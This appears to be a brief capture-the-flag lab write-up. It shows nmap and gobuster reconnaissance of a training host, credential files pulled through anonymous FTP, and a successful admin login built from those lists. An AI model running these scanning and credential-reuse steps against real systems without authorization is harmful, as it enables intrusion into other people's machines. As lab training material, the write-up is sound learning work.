


# Php & Ftp

## Scan

```bash
nmap -T5 --min-rate 100000 -sC -sV 10.129.106.10
```

### Result

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.57
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix
```

So the ftp server allowes anonymous users, and has obviously two files, seems like username and passwords.

```bash
# allowed.userlist

aron
pwnmeow
egotisticalsw
admin
```

```bash
# allowed.userlist.passwd

root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

So there's just 16 combinations of credentials (if this two files ARE REALLY the credentials).

## Scan Web

```bash
gobuster dir -u http://10.129.106.10 -x html,php -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

```text
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.106.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              -r
[+] Extensions:              html,php
[+] Timeout:                 10s
===============================================================
2022/04/25 18:59:06 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577] 
/assets               (Status: 301) [Size: 315] [--> http://10.129.106.10/assets/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.106.10/css/]   
/js                   (Status: 301) [Size: 311] [--> http://10.129.106.10/js/]    
/logout.php           (Status: 302) [Size: 0] [--> login.php]
```

## Exploit

We can try login at /login.php now.



And we logged in successfully with:

```text
username: admin
password: rKXM59ESxesUFHAd
```


